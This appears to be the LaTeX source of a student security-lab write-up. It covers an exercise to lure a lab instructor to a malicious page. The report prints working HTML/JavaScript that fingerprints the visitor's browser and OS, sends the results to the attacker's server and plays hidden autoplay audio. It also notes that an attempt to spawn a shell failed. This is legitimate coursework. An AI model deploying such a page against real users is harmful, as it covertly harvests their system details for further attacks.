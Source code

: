 \documentclass[12pt]{report}
\begin{document}
	
	
	\paragraph*{5.}{\bf Create your XSS attack. Convince the lab instructor to access the URL and perform the following client-side attacks:
		\begin{itemize}
			\item Enumerate the browser and the underlying OS.
			\item Play your favourite sound track on the victim's machine.
			\item Spawn a shell (if possible).
		\end{itemize}
		hint: Using a tool may help. However, it is up to you if you like old school methods.
	}\\

	On our local machine, we set up our web server and created a html file with javascript.\\
	This is the source code of the template used by our attack to server. Javascript script code extracts the browser and Operating system information and play a music.
	
	\begin{lstlisting}[breaklines=true,language=Java]
<html>
<head>
<script src = "/static/detect.js"></script>
<script>
var info = "\n".concat(jscd.os,"+", jscd.osVersion,"+", jscd.browser,"+", jscd.browserMajorVersion,"+", jscd.browserVersion, "+", encodeURIComponent(navigator.userAgent));
function httpGet(theUrl){
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", theUrl, false ); // false for synchronous request
xmlHttp.send( null );
return xmlHttp.responseText;}
x = httpGet("/store/"+info);
</script>
</head>
<body>
<h1>Hi! How are you?</h1>
<audio style="display:none;" controls  autoplay id="audio-example">
<!-- One or more source files, each referencing the same audio but in a different file format.
The browser will choose the first file which it is able to play. -->
<source src="/static/a.mp3">
You will see this text if native audio playback is not supported.
<!-- You could use this fall-back feature to insert a JavaScript-based audio player. -->
</audio>
</body>
</html>
	\end{lstlisting}
	
	We found out that the victim is running Ubuntu 8.04 with the browser Firefox version 33.6.17.\\
	However, it was not possible to spawn a shell in client's machine. This is one of the limitations on client side scripting. Spawning a shell through client side scripting would cause a very serious security threat.
	\newpage
	
\end{document}
